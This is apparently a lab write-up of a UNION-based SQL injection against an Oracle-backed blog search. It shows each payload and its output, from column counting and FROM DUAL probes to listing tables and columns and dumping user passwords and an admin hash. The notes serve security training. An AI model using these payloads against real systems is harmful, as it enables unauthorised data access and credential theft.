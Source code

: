 # Oracle

author parameter

' - Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-01756: quoted string not properly terminated&#x20;

'' - Error disappears.

```
' ORDER BY 1-- OK
' ORDER BY 2-- OK
' ORDER BY 3-- OK
' ORDER BY 4-- ERROR

' UNION SELECT 'a', NULL, NULL-- ERROR
' UNION SELECT NULL,'a',NULL-- ERROR
' UNION SELECT NULL,NULL,'1'-- ERROR
```

Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected

```
On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.                 
There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual                 
For more information, see our SQL injection cheat sheet.      
```

We can use legit database from Oracle - FROM DUAL

```
' UNION SELECT NULL FROM DUAL-- ERROR
' UNION SELECT NULL,NULL FROM DUAL-- ERROR
' UNION SELECT NULL,NULL,NULL FROM DUAL-- OK.

' UNION SELECT 'a', NULL, NULL FROM DUAL-- OK.
' UNION SELECT NULL,'a',NULL FROM DUAL-- OK.
‘ UNION SELECT NULL,NULL,’a' FROM DUAL-- ERROR
' UNION SELECT NULL,NULL,1 FROM DUAL-- OK.
```

\| Oracle | SELECT banner FROM v$version SELECT version FROM v$instance |

[https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

```
' UNION SELECT banner,NULL,NULL FROM v$version--
```

```
Blog entry from Oracle Database 18c Express Edition Release 18.0.0.0.0 - Production with title null from 0
```

https://www.oracletutorial.com/oracle-administration/oracle-show-tables/

```
' UNION SELECT table_name,NULL,NULL FROM user_tables-- OK.
' UNION SELECT table_name,NULL,NULL FROM all_tables-- OK.
' UNION SELECT table_name,NULL,NULL FROM dba_tables-- ERROR.
```

Blog entry from TESTADMINS with title null from 0 Blog entry from TESTCONTENT with title null from 0 Blog entry from TESTUSERS with title null from 0

```
' UNION SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name='TESTUSERS'--
```

```
Blog entry from PASSWORD with title null from 0
Blog entry from USERID with title null from 0
Blog entry from USERNAME with title null from 0
```

```
' UNION SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name='TESTADMINS'--
```

```
Blog entry from ADMINID with title null from 0
Blog entry from ADMINNAME with title null from 0
Blog entry from PASSWORD with title null from 0
```

```
' UNION SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name='TESTCONTENT'--
```

```
Blog entry from AUTHOR with title null from 0
Blog entry from CONTENTID with title null from 0
Blog entry from RELEASE with title null from 0
Blog entry from TITLE with title null from 0
```

```
' UNION SELECT PASSWORD,USERNAME,USERID FROM TESTUSERS--
```

```
Blog entry from passpass1 with title can from 2
Blog entry from letmein123 with title mary from 3
Blog entry from mypassword with title william from 1
```

```
' UNION SELECT PASSWORD,ADMINNAME,ADMINID FROM TESTADMINS--
```

```
Blog entry from 49a12f19ea4b304b84b23c86a2f319c1 with title admin from 1
```
